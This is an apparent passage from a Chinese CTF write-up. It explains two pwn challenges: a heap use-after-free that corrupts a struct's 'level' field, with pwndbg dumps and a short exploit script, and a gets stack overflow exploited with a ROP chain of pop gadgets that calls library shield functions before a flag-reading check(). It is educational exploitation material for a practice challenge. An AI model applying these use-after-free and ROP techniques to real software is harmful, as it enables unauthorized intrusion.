 可以看到有 2 块 0x20 的 chunk，第一块是结构体指针，存放着 `name` 地址和 `level` 数值；第二块就是 `name` 了，存放着我们输入的 `name`，注意这时第二个 8 字节已经是 5 了。随后我们释放召唤物：

```
pwndbg> x/8gx 0x5621c569e010
0x5621c569e010:    0x0000000000000000    0x0000000000000021
0x5621c569e020:    0x00005621c569e040    0x0000000000000000
0x5621c569e030:    0x0000000000000000    0x0000000000000021
0x5621c569e040:    0x0000000000000000    0x0000000000000005
```

这时 `name` 被 `free` 了但指针还在，我们刚刚写的 `\x05` 也还在。这时再召唤就能得到 `0x5621c569e030` 处的一块 chunk 作为结构体指针，而新的 `name` 跑到了 `0x55feced35050`：

```
pwndbg> x/12gx 0x55feced35010
0x55feced35010:    0x0000000000000000    0x0000000000000021
0x55feced35020:    0x000055feced35040    0x0000000000000000
0x55feced35030:    0x0000000000000000    0x0000000000000021
0x55feced35040:    0x000055feced35060    0x0000000000000005
0x55feced35050:    0x0000000000000000    0x0000000000000021
0x55feced35060:    0x0000000000000061    0x0000000000000000
```

于是此时，结构体指针里的 `level` 就变成了 5。

```python
sla('> ','summon aaaaaaaa'+'\x05')
sla('> ','release')
sla('> ','summon a')
sla('> ','strike')
```

### Demon Dragon

题目本身不难，略微有些工作量。

首先是逆向程序，一开始会调用 6 个函数，这 6 个函数来自题目同时给出的 `libmagic.so`，目的是为了让这 6 个函数被动态链接进来，可以直接忽略。随后，Demon Dragon 会使用 5 种元素攻击你，元素的顺序是随机的。接下来需要输入使用的技能，这里存在简单的 `gets` 栈溢出。但是并不清楚溢出之后要干什么。

然后我们逆向 `libmagic.so`，这个文件保留了符号表，因此可以看到刚才的 6 个函数，分别是 5 种元素护盾和一个 `check` 函数。观察后可以发现每种元素护盾都可以克制另一种元素（克制关系在题目描述里），当 5 种攻击都被克制后就可以通过 `check` 来拿到 flag。可以看到 `check` 里存在 `system("cat flag");`，如果这个函数不是动态链接的，选手可以直接栈溢出跳到这里。此外，5 种护盾如果没有符号表则逆向难度较大，因此我把它们和 `check` 都编译成了动态链接库。

最后来看护盾如何调用：所有护盾都只需要函数参数等于特定值即可成功调用，区别仅仅是特定值与参数个数不同。那么如何控制参数呢？这是 64 位程序，我们需要控制前三个参数寄存器 `rdi,rsi,rdx`。前两者在偏移过的 `__lib_csu_init` 中可以找到，比较通用：

```
pop rdi; ret
pop rsi; pop r15; ret
```

而 `rdx` 不太好控制，于是我在程序中直接硬编码了一个 gadget：

```
pop rdi; pop rsi; pop rdx; ret
```

这样就可以构造 rop 链了，按元素克制关系调用 5 种护盾，最后返回到 `check` 函数 getflag。不要忘了 `check` 函数也需要参数，这个参数可以参考第一次调用 `check` 时候的参数，位于 `0x6020b0`。
